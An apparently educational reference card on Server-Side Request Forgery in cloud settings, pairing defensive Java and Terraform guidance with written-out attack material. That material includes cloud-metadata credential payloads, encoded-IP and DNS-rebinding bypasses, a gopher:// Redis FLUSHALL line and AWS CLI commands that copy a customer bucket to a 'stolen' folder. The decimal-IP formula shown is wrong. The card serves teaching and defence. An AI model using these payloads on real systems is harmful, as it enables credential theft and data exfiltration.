

⚡ TL;DR - SSRF (Server-Side Request Forgery) tricks a server into making
HTTP requests to attacker-specified targets. In cloud environments, the
critical target is the EC2 Instance Metadata Service (169.254.169.254)
which returns IAM credentials, allowing full account takeover. SSRF bypasses
firewalls because the request originates from a trusted internal server.
Common bypass techniques: alternative IP representations of 169.254.169.254
(decimal: 2852039166, hex: 0xa9fea9fe, IPv6: ::ffff:169.254.169.254),
URL redirects, DNS rebinding. AWS defense: IMDSv2 (token-based, requires
a PUT request first - SSRF typically cannot perform the PUT). Application
defense: URL allowlist (never denylist), resolve hostname before connecting
and re-check against allowlist, block private IP ranges (10/8, 172.16/12,
192.168/16, 169.254/16, ::1) in outgoing requests.

---

| #093 | Category: Security | Difficulty: ★★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, CSP, Authentication, Session Management, Secrets Management, IAM, TLS Configuration, OAuth Security, Business Logic, Advanced JWT, Advanced XSS, CORS Misconfiguration | |
| **Used by:** | TLS Protocol Attacks, Responsible Disclosure, IR Process, AWS Security Services, DevSecOps Pipeline Design, SSDLC, Web Security Model | |
| **Related:** | OWASP Top 10, CSP, Authentication, Session Management, IAM, TLS Configuration, Business Logic, Advanced JWT, Advanced XSS, CORS Misconfiguration, TLS Protocol Attacks, Web Security Model | |

---

### 🔥 The Problem This Solves

**WHY SSRF IS THE MOST DANGEROUS CLOUD VULNERABILITY:**

```
THE TRUSTED SERVER PROBLEM:

  NORMAL ARCHITECTURE:
  
    Internet → Firewall → Application Server → Internal Services
    
    Firewall blocks:
      - Direct access from Internet to internal services
      - Direct access from Internet to cloud metadata service
      - Direct access from Internet to databases, Redis, etc.
    
    Application Server:
      - Can reach internal services (trusted zone)
      - Can reach cloud metadata service (169.254.169.254)
      - CAN MAKE OUTBOUND HTTP REQUESTS (for: webhooks, image fetches,
        PDF generation, URL preview, link validation, etc.)
    
  SSRF ATTACK:
    
    Attacker → Application Server (TRUSTED) → Internal Services
    
    Attacker doesn't attack internal services directly.
    Attacker tricks the application server into doing it.
    
    WHY IT'S CATASTROPHIC IN AWS:
    
    AWS EC2 Instance Metadata Service (IMDSv1):
      URL: http://169.254.169.254/latest/meta-data/
      
      Available to: any process running on the EC2 instance.
      Requires: no authentication (IMDSv1).
      Contains: IAM role credentials for the instance.
      
      $ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
      MyAppRole
      
      $ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/MyAppRole
      {
        "AccessKeyId": "ASIA...",
        "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
        "Token": "AQoXnyc4lcK4cTVIR...",
        "Expiration": "2024-01-15T14:23:39Z"
      }
      
    SSRF EXPLOITATION:
      
      Application has: POST /preview-url with body: {"url": "https://..."}
      Application fetches the URL server-side (to generate preview).
      
      ATTACK PAYLOAD:
      {"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/MyAppRole"}
      
      Response to attacker: the JSON above. Full IAM credentials.
      With credentials: attacker has same AWS permissions as the EC2 instance.
      If role has S3 access: download all S3 data.
      If role has RDS access: read the database.
      If role has IAM access: create new admin users.
      
    REAL BREACH:
      Capital One (2019): SSRF against AWS metadata service.
      Attacker retrieved IAM role credentials via SSRF.
      Used credentials to download 100+ S3 buckets.
      106 million customer records stolen.
      $80 million fine, $190 million class action settlement.
```

---

### 📘 Textbook Definition

**SSRF (Server-Side Request Forgery):** A vulnerability where an attacker
can cause a server to make HTTP requests to an arbitrary destination, including
internal services, cloud metadata APIs, and localhost. The server acts as a
proxy, forwarding requests from the attacker to otherwise-inaccessible targets.
SSRF bypasses network-level controls because the malicious request originates
from a trusted server.

**AWS Instance Metadata Service (IMDS):** A service available at the link-local
address `169.254.169.254` on all AWS EC2 instances. It provides instance metadata
(instance ID, region, IAM role credentials). IMDSv1: unauthenticated GET requests
to this address return credentials. IMDSv2: requires a session token obtained
via a PUT request first (mitigates SSRF-based credential theft).

**Blind SSRF:** An SSRF vulnerability where the attacker cannot directly read
the response (the application does not return the fetched content). Exploitation
requires: out-of-band techniques (DNS canary via Burp Collaborator, timing
differences to infer server status).

**URL parsing confusion:** Inconsistencies in how different URL parsers interpret
URLs, used to bypass SSRF filters. Example: a filter uses one URL parser,
the HTTP library uses a different parser. The attacker crafts a URL that the
filter sees as safe but the HTTP library interprets differently.

**DNS rebinding:** An attack where a domain initially resolves to a safe IP
(passing SSRF validation), but then resolves to 169.254.169.254 (or an internal
IP) when the actual HTTP connection is made. Exploits the gap between hostname
resolution (for SSRF validation) and actual connection.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
SSRF lets an attacker use your server as a proxy to reach internal services
and cloud metadata APIs (169.254.169.254) that are blocked from the internet
- leading to IAM credential theft and full cloud account compromise.

**One analogy:**
> The attacker can't enter the bank vault directly (firewall blocks internet access
> to internal services).
>
> But: the bank has a trusted employee (the application server) who CAN enter the vault.
> The employee has a flaw: "Fetch me this document" - and they'll fetch any document
> from any location, internal or external, without questioning.
>
> Attacker: "Please fetch me the document at 'The vault, shelf 169.254.169.254,
>            folder IAM credentials'."
>
> Employee: fetches the document. Returns it to the attacker.
>
> The firewall only sees: trusted employee going into the vault (normal behavior).
> The firewall does not inspect what the employee was asked to fetch.
>
> IMDSv2 defense: the vault now requires the employee to sign in FIRST
> (using a PUT request for a session token). The attacker can tell the employee
> "go to the vault" but cannot easily tell them to "first sign in, then go."
> (SSRF typically exploits HTTP GET-based fetch operations; the PUT-first
> requirement of IMDSv2 is often not possible in a simple SSRF payload.)

---

### 🔩 First Principles Explanation

**SSRF bypass techniques:**

```
IP REPRESENTATION BYPASSES for 169.254.169.254:

  Standard:    http://169.254.169.254/
  Decimal:     http://2852039166/            (169*16^6 + 254*16^4 + 169*16^2 + 254)
  Octal:       http://0251.0376.0251.0376/   (octal each octet)
  Hex:         http://0xa9fea9fe/            (0xa9=169, 0xfe=254)
  Mixed:       http://169.254.0xa9fe/        (mixed representations)
  IPv6:        http://[::ffff:169.254.169.254]/
  IPv6 hex:    http://[::ffff:a9fe:a9fe]/
  URL-encoded: http://%31%36%39%2e%32%35%34%2e%31%36%39%2e%32%35%34/
  
  WHY THESE BYPASS FILTERS:
  A simple denylist: if url.contains("169.254.169.254") → block.
  Bypass: use decimal (2852039166). The string check doesn't match.
  The HTTP library resolves 2852039166 to 169.254.169.254. Request succeeds.
  
  REDIRECT BYPASS:
  SSRF filter: validates URL → allows "https://safe-server.com/image.jpg".
  safe-server.com/image.jpg returns: HTTP 301 Redirect to http://169.254.169.254/...
  HTTP library follows the redirect. Filter only validated the FIRST URL.
  
  BYPASS: host the redirect on a server you control.
  DEFENSE: disable redirect following, or re-validate after each redirect.
  
  DNS REBINDING BYPASS:
  Step 1: Register evil.com. DNS TTL: 0 (no caching).
  Step 2: Initial DNS query for evil.com: 1.2.3.4 (safe external IP).
          SSRF filter validates: 1.2.3.4 is not in private range → ALLOWED.
  Step 3: Change DNS for evil.com: now resolves to 169.254.169.254.
  Step 4: Application opens TCP connection. Re-resolves evil.com.
          Gets 169.254.169.254. Connects to metadata service.
          
  BYPASS: gap between DNS resolution (validation time) and connection time.
  DEFENSE: resolve hostname to IP at validation time, then connect to the IP
           directly (not the hostname). Re-validate the resolved IP.
           Or: use dedicated DNS resolver that blocks private IPs.

INTERNAL SERVICE EXPLOITATION:

  SSRF targets beyond metadata service:
    
    http://localhost:8080/actuator/env    → Spring Boot env (credentials in props)
    http://localhost:8080/actuator/dump  → Thread dump
    http://localhost:6379/              → Redis (RESP protocol)
    http://localhost:27017/             → MongoDB (unauthenticated in some configs)
    http://10.0.0.1/admin              → Internal admin panels
    http://internal-api.company.com/internal/users → Internal APIs
    
    gopher:// protocol (if supported):
    Used to send arbitrary TCP data. Can interact with Redis, SMTP, etc.
    gopher://127.0.0.1:6379/_FLUSHALL%0D%0A → clear Redis cache
```

---

### 🧪 Thought Experiment

**SCENARIO: SSRF in a PDF generation service:**

```
TARGET: SaaS platform with feature "Generate PDF from URL"
USER FEATURE: POST /api/pdf {"url": "https://my-report.com/dashboard"}
BACKEND: Uses wkhtmltopdf or Puppeteer to load URL and render PDF.

DISCOVERY:
  Test: {"url": "http://169.254.169.254/latest/meta-data/"}
  
  Response: PDF containing the metadata service response.
  Path listing:
    ami-id
    ami-launch-index
    block-device-mapping/
    hostname
    iam/
    instance-action
    instance-id
    ...
  
  → SSRF confirmed. Cloud metadata accessible.

EXPLOITATION CHAIN:

  Step 1: Get IAM role name
  {"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
  PDF response: "WebAppRole"
  
  Step 2: Get IAM credentials
  {"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/WebAppRole"}
  PDF response:
  {
    "AccessKeyId": "ASIA...",
    "SecretAccessKey": "...",
    "Token": "AQo...",
    "Expiration": "..."
  }
  
  Step 3: Use credentials to access AWS
  AWS_ACCESS_KEY_ID=ASIA... \
  AWS_SECRET_ACCESS_KEY=... \
  AWS_SESSION_TOKEN=AQo... \
  aws s3 ls
  → Lists all S3 buckets the role can access.
  
  aws s3 cp s3://company-customer-data/ ./stolen/ --recursive
  → Downloads all customer data.
  
  Step 4 (privilege escalation): Check IAM permissions
  aws iam list-attached-role-policies --role-name WebAppRole
  If PassRole or CreateUser: create a new IAM user with admin privileges.

WHAT IMDSv2 PREVENTS:

  IMDSv2 requires:
  
  Step 1: PUT to get token (token valid for TTL seconds):
  curl -X PUT \
    "http://169.254.169.254/latest/api/token" \
    -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
  Response: TOKEN_VALUE
  
  Step 2: Use token in GET request:
  curl http://169.254.169.254/latest/meta-data/ \
    -H "X-aws-ec2-metadata-token: TOKEN_VALUE"
  
  SSRF LIMITATION:
  Most SSRF vulnerabilities only allow the attacker to control a URL for
  an HTTP GET (or form POST). The PUT request for IMDSv2 token requires:
  - A PUT method (not GET)
  - A custom header (X-aws-ec2-metadata-token-ttl-seconds)
  - Chaining two requests (PUT to get token, then GET with token)
  
  Most SSRF attack vectors (image fetching, URL preview, PDF generation)
  cannot perform a PUT with custom headers. IMDSv2 blocks these SSRF attacks.
  
  Edge case: SSRF via redirect, gopher://, or SSRF in an HTTP library that
  follows redirects and can be used to perform PUT requests:
  these may still bypass IMDSv2. Defense-in-depth still required.
```

---

### 🧠 Mental Model / Analogy

> SSRF is the "confused deputy" problem.
>
> In computer security: a confused deputy is a legitimate principal (the app server)
> that has more privileges than the attacker (can reach internal services),
> but can be tricked by the attacker into misusing those privileges.
>
> The application server is the deputy:
> - It's trusted to reach the metadata service (it's running on EC2).
> - It's trusted to reach internal microservices (same VPC).
> - It's trusted to reach the database (internal network).
>
> The attacker is the principal who can give the deputy instructions.
> The deputy (confused) follows the instructions without questioning whether
> the attacker is authorized to access the target.
>
> The defense: the deputy should only follow instructions within a narrow scope.
> "You may only fetch documents from: https://safe-list.com/images/*"
> "You may never fetch from: 169.254.x.x, 10.x.x.x, 192.168.x.x"
>
> The URL allowlist = the deputy's scope of authority.
> The IP range denylist = the deputy's list of forbidden zones.
> IMDSv2 = the vault requires a special key the confused deputy doesn't carry.
>
> The key principle: in a confused deputy problem, you need EITHER:
> 1. Restrict what instructions the deputy will accept (allowlist), OR
> 2. Remove the deputy's access to the sensitive resource (IMDSv2, or
>    block instance profile if the app doesn't need IAM access).

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
SSRF tricks your server into making web requests on behalf of an attacker. Since your server is trusted on your internal network, it can access systems that are blocked to internet users. In AWS, this means an attacker can steal your server's cloud credentials and take over your entire AWS account.

**Level 2 - How to use it (junior developer):**
Never use user-provided URLs directly in server-side HTTP requests without strict validation. If you must fetch user-provided URLs (webhooks, link previews, PDF generation): use an allowlist of permitted domains, resolve the hostname to an IP and check it's not in private ranges (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, 169.254.0.0/16, 127.0.0.0/8, ::1). Block redirects or re-validate after redirects. Enable AWS IMDSv2 (prevents unauthenticated metadata access).

**Level 3 - How it works (mid-level engineer):**
Application with URL-fetching feature (webhook, link preview, PDF generator): attacker submits `http://169.254.169.254/latest/meta-data/iam/security-credentials/MyRole`. Server resolves and fetches: gets IAM credentials. Bypasses firewall (request originates from trusted server). SSRF bypass techniques: alternate IP representations (decimal, hex, IPv6), open redirects on trusted hosts, DNS rebinding (resolve to safe IP first, then rebind to 169.254.169.254). Defense: allowlist only approved domains, resolve hostname → IP → check against denylist, disable redirect following, use IMDSv2. Blind SSRF: server fetches but doesn't return response → use Burp Collaborator for out-of-band DNS callback.

**Level 4 - Why it was designed this way (senior/staff):**
SSRF became critical with cloud adoption. On-premise: 169.254.169.254 didn't exist. AWS, GCP, Azure: every VM has access to the metadata service. Application code that predates cloud (2000s-era link fetchers, RSS parsers, image importers) wasn't designed with 169.254.169.254 in mind. The defense (IMDSv2) is an example of adding an out-of-band requirement (PUT for token) that is hard for SSRF to satisfy. This is defense-in-depth: even if SSRF exists, IMDSv2 requires a capability (PUT method + custom header + two-step flow) that typical SSRF vectors don't support. GCP also has a metadata service (169.254.169.254 or metadata.google.internal) that requires a custom header `Metadata-Flavor: Google` - another out-of-band requirement. Azure IMDS: 169.254.169.254 requires custom header `Metadata: true`.

**Level 5 - Mastery (distinguished engineer):**
SSRF and the port scanning vector: SSRF can be used for internal network scanning. Fetch http://10.0.0.1:22/ (SSH), http://10.0.0.1:3306/ (MySQL), etc. Response time and error messages differ between open/closed ports. Blind SSRF with timing: an SSRF to an open port connects and times out differently than to a closed port. SSRF via XXE (XML External Entity): `<!ENTITY xxe SYSTEM "http://169.254.169.254/...">` - an SSRF via XML parsing. SSRF via PDF generators: wkhtmltopdf fetches URLs embedded in the PDF HTML (including CSS, images, iframes with src). SSRF in PDF = common finding. SSRF + CORS: if the SSRF target returns CORS headers allowing the application's origin, the application can read the response and return it to the user (non-blind SSRF via CORS). SSRF protocol confusion: some libraries support file://, gopher://, dict://, ldap:// - non-HTTP protocols may reach additional internal services. Defense: allowlist HTTPS only, block all other protocols.

---

### ⚙️ How It Works (Mechanism)

```
SSRF EXPLOITATION ANATOMY:

  Vulnerability: Application fetches user-supplied URL.
  
  Attack chain:
  1. Attacker supplies: http://169.254.169.254/latest/meta-data/
  2. Server resolves: 169.254.169.254 (link-local, reachable from EC2)
  3. Server connects: TCP to 169.254.169.254:80
  4. Server sends: GET /latest/meta-data/ HTTP/1.1
  5. IMDS responds: list of metadata paths
  6. Server returns: response to attacker
  7. Attacker fetches IAM credentials path
  8. Attacker uses credentials → full AWS access

  IMDSv2 PROTECTION:
  
  IMDSv1:                    IMDSv2:
    GET /meta-data/            PUT /api/token (get session token)
    → returns credentials      GET /meta-data/ + X-aws-ec2-metadata-token: TOKEN
                               → returns credentials
    SSRF exploitable.          SSRF requires PUT first → harder.
```



---

### 💻 Code Example

**Secure URL fetcher with SSRF protection (Java Spring Boot):**

```java
// VULNERABLE: no URL validation
@Service
public class UrlFetcher_BAD {
    
    private final RestTemplate restTemplate = new RestTemplate();
    
    public String fetchUrl(String url) {
        // BAD: directly fetches any URL
        // SSRF: {"url": "http://169.254.169.254/..."}
        return restTemplate.getForObject(url, String.class);
    }
}

// SECURE: URL allowlist + private IP blocking
@Service
public class SecureUrlFetcher {
    
    // ALLOWED: specific external domains for legitimate use
    private static final Set<String> ALLOWED_HOSTS = Set.of(
        "webhook.site",
        "hooks.slack.com",
        "api.github.com"
    );
    
    // BLOCKED: private/internal IP ranges (CIDR notation)
    // 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16,
    // 169.254.0.0/16 (link-local), 127.0.0.0/8 (loopback)
    private static final List<IpAddressMatcher> BLOCKED_RANGES = List.of(
        new IpAddressMatcher("10.0.0.0/8"),
        new IpAddressMatcher("172.16.0.0/12"),
        new IpAddressMatcher("192.168.0.0/16"),
        new IpAddressMatcher("169.254.0.0/16"),
        new IpAddressMatcher("127.0.0.0/8"),
        new IpAddressMatcher("::1/128"),
        new IpAddressMatcher("fc00::/7")
    );
    
    public String fetchUrl(String rawUrl) throws SsrfException {
        try {
            URI uri = new URI(rawUrl);
            
            // DEFENSE 1: Only allow HTTPS
            if (!"https".equals(uri.getScheme())) {
                throw new SsrfException(
                    "Only HTTPS URLs are permitted. Got: " + uri.getScheme());
            }
            
            String host = uri.getHost();
            if (host == null || host.isEmpty()) {
                throw new SsrfException("Invalid URL: no host");
            }
            
            // DEFENSE 2: Allowlist check (exact host match)
            if (!ALLOWED_HOSTS.contains(host)) {
                throw new SsrfException("Host not in allowlist: " + host);
            }
            
            // DEFENSE 3: Resolve hostname → check resolved IPs
            // (prevents DNS rebinding if done at connection time too)
            InetAddress[] addresses = InetAddress.getAllByName(host);
            for (InetAddress addr : addresses) {
                String ip = addr.getHostAddress();
                for (IpAddressMatcher blocker : BLOCKED_RANGES) {
                    if (blocker.matches(ip)) {
                        throw new SsrfException(
                            "Resolved IP is in blocked range: " + ip);
                    }
                }
            }
            
            // DEFENSE 4: Set strict timeouts to prevent resource exhaustion
            HttpComponentsClientHttpRequestFactory factory =
                new HttpComponentsClientHttpRequestFactory();
            factory.setConnectTimeout(5000);   // 5s connection timeout
            factory.setReadTimeout(10000);      // 10s read timeout
            
            // DEFENSE 5: Disable redirect following
            // (prevents redirect SSRF bypass)
            CloseableHttpClient httpClient = HttpClients.custom()
                .disableRedirectHandling()
                .build();
            factory.setHttpClient(httpClient);
            
            RestTemplate safeRestTemplate = new RestTemplate(factory);
            return safeRestTemplate.getForObject(rawUrl, String.class);
            
        } catch (URISyntaxException | UnknownHostException e) {
            throw new SsrfException("Invalid URL: " + e.getMessage());
        }
    }
}

// AWS: ENFORCE IMDSv2 (Terraform):
// resource "aws_instance" "app" {
//   metadata_options {
//     http_endpoint               = "enabled"
//     http_tokens                 = "required"  # IMDSv2 enforced
//     http_put_response_hop_limit = 1  # Prevent SSRF through containers
//   }
// }
```

---

### ⚖️ Comparison Table

| SSRF Target | Accessible Data | Impact | IMDSv2 Mitigation |
|:---|:---|:---|:---|
| **AWS IMDS (169.254.169.254)** | IAM credentials, user-data | Full AWS account takeover | Yes (PUT-first) |
| **GCP metadata (169.254.169.254)** | Service account tokens, project data | GCP project access | Similar (Metadata header) |
| **Internal Redis (127.0.0.1:6379)** | Cache data, session tokens | Session hijacking | N/A (network) |
| **Internal admin panels** | Admin functions, config | Admin access | N/A (network) |
| **Spring Actuator (localhost:8080)** | Env vars, heap dump, credentials | Credential theft | N/A (application) |
| **Internal databases** | User data, credentials | Data breach | N/A (protocol) |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "Blocking 169.254.169.254 in the firewall prevents SSRF." | Firewall rules block external access to 169.254.169.254. SSRF bypasses the firewall because the request comes FROM the application server (trusted) TO the metadata service (reachable from the server). The firewall never sees this request - it's internal to the EC2 instance. The metadata service is a link-local address, reachable via the loopback adapter on the same host. A firewall between the internet and the application server cannot block internal loopback-range requests that the server makes to itself. The correct defense is URL validation in the application code and IMDSv2. |
| "IMDSv2 fully prevents SSRF exploitation." | IMDSv2 is a strong mitigation specifically for metadata service credential theft via simple GET-based SSRF. However: (1) It doesn't prevent SSRF against other internal services (Redis, databases, admin panels, other microservices). (2) Advanced SSRF via gopher://, header injection, or HTTP request smuggling may be able to perform the PUT request. (3) Applications running in containers on EC2 with `http_put_response_hop_limit` set to 2+ (instead of 1) can have IMDSv2 bypassed by SSRF within the container. IMDSv2 + URL validation + allowlisting are required together. IMDSv2 alone is insufficient defense-in-depth. |

---

### 🚨 Failure Modes & Diagnosis

**SSRF detection and testing:**

```
TESTING FOR SSRF:

  TOOL: Burp Suite Collaborator (out-of-band detection)
  
  Test 1: Direct SSRF (if response reflected)
  
    POST /api/pdf HTTP/1.1
    {"url": "http://169.254.169.254/latest/meta-data/"}
    
    Response contains metadata listing → CRITICAL SSRF.
  
  Test 2: Blind SSRF (response not reflected)
  
    Use Burp Collaborator domain (unique DNS subdomain).
    
    {"url": "http://yourburpcollaboratordomain.burpcollaborator.net/test"}
    
    Check Burp Collaborator panel: did your server's IP make a DNS lookup?
    DNS lookup = server attempted to resolve the URL → BLIND SSRF confirmed.
    
  Test 3: IP bypass testing (if 169.254.169.254 is blocked by basic filter)
  
    Try alternative representations:
    http://2852039166/              # decimal
    http://0xa9fea9fe/              # hex
    http://[::ffff:169.254.169.254]/ # IPv6
    http://169.254.169.254.nip.io/ # wildcard DNS (may resolve)
  
  Test 4: Redirect bypass
  
    Set up redirect on your controlled server:
    GET /ssrf-redirect → 301 → http://169.254.169.254/latest/meta-data/
    
    Submit URL: {"url": "https://your-server.com/ssrf-redirect"}
    
    Response contains metadata → redirect SSRF bypass.
  
  SSRF COMMON INJECTION POINTS:
    - Image URL parameters (upload from URL)
    - Webhook URL configuration
    - PDF generator URL input
    - RSS feed URL
    - OpenGraph/link preview fetchers
    - File import from URL
    - Proxy/translation services
    - Health check URL configuration
    - "Try this URL" features
    
  REMEDIATION STEPS:
    1. Implement URL allowlist (not denylist - denylist is always bypassable)
    2. Resolve hostname at validation time + validate resolved IPs
    3. Disable redirect following (or re-validate after each redirect)
    4. Only allow HTTPS protocol
    5. Enable AWS IMDSv2 (`http_tokens = "required"`)
    6. Set http_put_response_hop_limit = 1 (prevents container SSRF)
    7. Use egress filtering at network level (blocks non-allowlisted outbound)
    8. Log all outbound requests from application servers (anomaly detection)
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10` (SEC-001) - SSRF is OWASP A10:2021
- `IAM` (SEC-028) - IAM credentials are the critical SSRF target in AWS

**Builds on this:**
- `AWS Security Services` (SEC-103) - GuardDuty detects IMDS abuse
- `Kubernetes Security Fundamentals` (SEC-104) - SSRF in containers

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ SSRF TARGET   │ 169.254.169.254: AWS IMDS (IAM creds)   │
│               │ localhost: internal services             │
│               │ 10.x, 192.168.x: internal network       │
├───────────────┼──────────────────────────────────────────┤
│ IP BYPASSES   │ decimal, hex, IPv6, octal representations│
│               │ DNS rebinding, open redirects            │
├───────────────┼──────────────────────────────────────────┤
│ DETECTION     │ Burp Collaborator: blind SSRF (DNS OOB)  │
│               │ Direct: fetch metadata URL               │
├───────────────┼──────────────────────────────────────────┤
│ DEFENSE       │ URL allowlist (not denylist)             │
│               │ Resolve hostname → check private range   │
│               │ Disable redirects, HTTPS only            │
│               │ AWS: IMDSv2 (http_tokens = required)     │
├───────────────┼──────────────────────────────────────────┤
│ REAL BREACH   │ Capital One 2019: SSRF → IAM creds       │
│               │ → 100M+ records stolen → $190M settlement│
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"A server's network-level trust is not bounded by the trust the application code
grants to requests it receives."
An application server has network access based on its network position (VPC,
security groups, IAM role). This access is a PRIVILEGE that exists regardless of
whether the application code uses it intentionally.
SSRF exploits the gap between:
- What the application is designed to fetch (external webhooks, images from users).
- What the application CAN fetch (anything the server's network position allows).
The correct security model: the application's outbound network access should
match EXACTLY what the application needs (least privilege for network access).
Practically: use VPC endpoints + security groups to limit outbound traffic to
specific services. Don't grant "internet access" when the application only needs
to access specific domains.
This principle extends to other privilege scopes:
- File system: application should only read/write specific directories.
  Path traversal exploits the gap between "read this user file" and "read any file."
- Database: application should only query specific tables.
  SQL injection exploits the gap between "read this row" and "read any data."
- OS commands: application should only run specific commands.
  Command injection exploits the gap between "run this validation command"
  and "run any command."
In all cases: actual privilege scope > intended privilege scope → attack surface.
Reduce actual privilege scope to match intended scope. That's least privilege.

---

### 💡 The Surprising Truth

Capital One's SSRF breach (2019) is the canonical example, but the architectural
cause is broader: AWS IMDSv1 was designed in 2006 for a trusted environment
where only the instance itself would make HTTP requests to 169.254.169.254.

The threat model: "Code running on the instance is authorized to use the instance's
IAM role. The metadata service just provides the credentials."

The design assumption that failed: "Only code INTENTIONALLY RUNNING on the instance
will fetch from 169.254.169.254."

SSRF violated this assumption: it makes the instance fetch from 169.254.169.254
on behalf of an external attacker, without the attacker running code on the instance.

AWS's response (IMDSv2, 2019): add an out-of-band authentication step (PUT request
for a session token) before credentials are returned. This step is specifically
designed to be hard to perform via SSRF:
- PUT method (most SSRF is GET-based).
- Custom header (most SSRF can't add custom request headers).
- Session token in GET (chained two-step flow).

The interesting engineering insight: IMDSv2 doesn't change the TRUST MODEL.
It changes the INTERACTION PROTOCOL to require capabilities that SSRF typically
doesn't have. It's a defense-in-depth measure, not a fundamental architecture change.

The real fix for SSRF + metadata: the principle of least privilege.
If the application doesn't need AWS credentials, don't attach an IAM role.
If it does need credentials, limit the role's permissions to exactly what's needed.
Then even if SSRF steals credentials, the damage is limited.
But the most impactful teams fix BOTH: application-level SSRF defense AND
IAM least privilege AND IMDSv2. Defense-in-depth at all three layers.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** the Capital One attack path: SSRF → 169.254.169.254 → IAM credentials →
   AWS S3 access → 100M+ records. Explain why the firewall didn't stop it.
2. **LIST** three IP representation bypasses for 169.254.169.254:
   decimal (2852039166), hex (0xa9fea9fe), IPv6 (::ffff:169.254.169.254).
3. **DESCRIBE** why IMDSv2 blocks most SSRF: requires PUT request + custom header
   before GET for credentials - typical SSRF (URL-only control) can't perform PUT.
4. **WRITE** the key elements of secure URL fetching: allowlist, resolve hostname → check IP,
   disable redirects, HTTPS only.

---

### 🎯 Interview Deep-Dive

**Q: What is SSRF? How would an attacker use SSRF to compromise an AWS account?
What are the defenses?**

*Why they ask:* Tests cloud security knowledge, AWS architecture understanding,
and ability to explain a multi-step attack chain. Critical for cloud, backend, and
security roles.

*Strong answer covers:*
- SSRF: server-side feature that fetches URLs (webhook, preview, PDF) made to fetch
  attacker-controlled URL targeting internal/metadata services.
- AWS attack: SSRF → `http://169.254.169.254/latest/meta-data/iam/security-credentials/MyRole`
  → IAM credentials → full AWS access (S3, RDS, IAM, etc.). Capital One 2019: real breach.
- Bypass techniques: alternate IP representations (decimal, hex, IPv6 mapped), DNS rebinding,
  redirect through a trusted server, gopher:// protocol.
- IMDSv2: requires PUT request for a session token before GET returns credentials.
  Most SSRF (URL-only control) can't perform PUT → blocks most SSRF-based IMDS theft.
- Application defense: URL allowlist (only permitted external domains), resolve hostname
  and validate resolved IP not in private ranges (169.254/16, 10/8, 172.16/12, 192.168/16,
  127/8), disable redirect following, HTTPS only, short timeouts.
- Terraform for IMDSv2: `http_tokens = "required"`, `http_put_response_hop_limit = 1`.
- Blind SSRF: no response returned → use Burp Collaborator for out-of-band DNS detection.